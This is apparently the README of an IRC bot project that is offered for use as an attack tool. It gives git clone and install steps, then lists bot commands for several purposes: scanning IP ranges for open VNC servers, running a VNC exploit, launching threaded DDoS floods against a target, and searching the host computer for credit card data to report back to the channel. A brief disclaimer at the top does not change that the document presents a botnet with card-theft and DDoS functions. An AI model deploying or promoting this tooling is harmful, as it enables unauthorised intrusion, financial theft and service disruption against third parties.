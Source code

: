 # By using the code in this repository you agree do these terms:
# I am not responsible for any actions you make with this program.
# You will not use this program to commit illegal crimes.
# You take entire responsability if you damage your or someone else's computer.
# #### #
# This code is an IRC BOT that can connect to an IRC server with SSL
# The main purpose of this bot is to scan for Open/Unsecured VNC servers.
# The bot can also search for credit card informations in the computer that the bot is running.
# There is also a DDoS module made in Python, for taking out the target from the network.


# --- How to install ---

 git clone https://github.com/independentcod/PerlIRCSSL_VNCbypass.git
# .
 cd PerlIRCSSL_VNCbypass
# .
 chmod +x ./*
# (if using Debian, Kali or Ubuntu) 
 ./debian-installer.sh
# (elseif running CentOS)
 ./centos-installer.sh

# Follow the step-by-step installation and you are done.

# --- COMMANDS ---
The commands can be done via PRIVATE MESSAGE and CHANNEL also.
# this will scan 192.168.0.0/16 CIDR
@.scan 192.168.0.0-192.168.255.255 
# This needs to be done before each @.exploit
@.format 
# This runs the VNC exploit and reports the working VNCs to the channel
@.exploit 
# This kills the exploit run
@.stopexploit 
# this will ddos 127.0.0.1 on port 8080 tcp with 10000 packets in size with 1000 threads
@.ddos 127.0.0.1 8080 n 10000 1000 
# This kills the running ddos, do I even need to explain this?...
@.ddos.stop
# This will scan computer for credit card info and report in the channel.
@.ccplz
# mehhh
@.ping 

# ---NOTE---

In order for bot to work you need to be operator in the channel,
it also must be registered with services.
# YOU MUST autovoice your bots else you will not get any output in the server.

